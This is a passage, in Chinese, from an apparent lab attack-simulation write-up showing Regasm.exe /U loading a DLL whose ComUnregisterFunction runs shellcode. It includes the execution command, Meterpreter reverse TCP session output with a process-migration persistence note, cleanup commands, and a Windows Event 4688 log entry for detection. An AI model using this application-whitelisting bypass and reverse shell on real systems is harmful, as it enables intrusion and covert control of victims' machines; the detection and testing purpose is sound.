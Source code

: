 **说明**：
- 配置反向TCP Shell监听，`AutoRunScript migrate -f`自动迁移进程以提升持久性。

#### 6. 靶机执行Payload

**命令**：
```cmd
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Regasm.exe /U Micropoor.dll
```

**结果**：
- `Regasm.exe`加载`Micropoor.dll`，触发`[ComUnregisterFunction]`中的Shellcode。
- 攻击机接收Meterpreter会话：
  ```
  [*] Started reverse TCP handler on 192.168.126.146:4444
  [*] Sending stage (180291 bytes) to 192.168.126.156
  [*] Meterpreter session 2 opened (192.168.126.146:4444 -> 192.168.126.156:49963) at 2023-10-01 10:00:00 +0800
  meterpreter > getsid
  Server SID: S-1-5-21-3661619627-1912079458-2426250727-500
  ```

#### 7. 清理

**靶机**：
```cmd
taskkill /IM Regasm.exe /F
del Micropoor.dll
del key.snk
```

**攻击机**：
- 关闭Metasploit会话：`exit`

## 测试留痕

### Windows安全日志（Event ID 4688：进程创建）

```xml
日志名称: Security
来源: Microsoft-Windows-Security-Auditing
日期: 2023/10/01 10:00:00
事件 ID: 4688
任务类别: Process Creation
级别: 信息
用户: N/A
计算机: WIN-SRV-2012
描述:
已创建新进程。

进程信息:
  新进程 ID: 0x9f8
  新进程名称: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Regasm.exe
  令牌提升类型: TokenElevationTypeDefault (1)
  创建者进程 ID: 0x13c
  创建者进程名称: C:\Windows\System32\cmd.exe
  进程命令行: C:\Windows\Microsoft.NET\Framework\v4.0.30319\Regasm.exe /U Micropoor.dll
```
